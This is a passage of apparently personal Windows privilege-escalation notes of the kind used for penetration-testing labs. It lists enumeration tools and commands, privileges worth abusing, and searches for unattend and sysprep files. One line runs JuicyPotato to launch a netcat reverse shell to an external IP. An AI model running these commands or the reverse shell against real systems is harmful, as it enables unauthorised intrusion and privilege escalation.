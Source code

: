 		otherwise: winPEAS.bat
		Download from ? https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
	    Powershell Scripts:
		https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
		https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp
		    For misconfigurations:  powerup.ps1
		    https://www.youtube.com/watch?v=WWE7VIpgd5I&ab_channel=Conda
		    Import-Module .\PowerUp.ps1
		    Invoke-AllChecks
		POWERLESS SCRIPT:  https://github.com/M4ximuss/Powerless
		sherlock.ps1
		watson
	General Enumeration:
	    hostname
	    ipconfig /all
	    netstat -rn
	    netstat -ano
	    netsh advfirewall show currentprofile
		netsh advfirewall firewall show rule name=all
	    Powershell Context/Lanuage Mode:  $executioncontext.sessionstate.languagemode
	System/Version:
	    systeminfo
		systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
		*Check version, hotfixes
		**CHECK 32/64 BIT
	    wmic product get name, version, vendor
	    wmic qfe get Caption, Description, HotFixID, InstalledOn
	    reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion" /v ProductName
	Users/Rights:
	    whoami /all
	    net user [name]
	    net localgroup [name]
	    Privileges:
		If you have SeImpersonatePrivilege, use Juicy Potato attack (ex. https://0xrick.github.io/hack-the-box/conceal/) (if you're a service acct?) (ex. https://www.absolomb.com/2018-05-04-HackTheBox-Tally/)
		    JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\inetpub\wwwroot\nc64.exe -e cmd.exe 192.168.119.186 443" -t *
			might need new clsid -c: get from github
		SeLoadDriverPrivilege privesc (https://0xdf.gitlab.io/2020/10/31/htb-fuse.html)
		Other privileges to look for:
		    SeImpersonatePrivilege
		    SeAssignPrimaryPrivilege
		    SeTcbPrivilege
		    SeBackupPrivilege
		    SeRestorePrivilege
		    SeCreateTokenPrivilege
		    SeLoadDriverPrivilege
		    SeTakeOwnershipPrivilege
		    SeDebugPrivilege
	Script/Process Modifications:
	    tasklist /v|more
	    tasklist /svc
	    wmic process get Name,ProcessID,ExecutablePath,commandline /format:list | more
	    *Search for versions/vulnerabilities
	    schtasks /query /v /FO list
	    sc queryex state= all
	    Unpack a packed Exe:  upx -d -o UserLogger-unpacked.exe UserLogger.exe
	    	Check Strings:  strings -el -n 14 UserLogger-unpacked.exe
	Interesting Files:
	    *User directories:  dir /s /b /a:-d-h \Users\alfred | findstr /i /v "appdata"
	    dir /s/b *unattend*
	    dir /s/b *sysprep*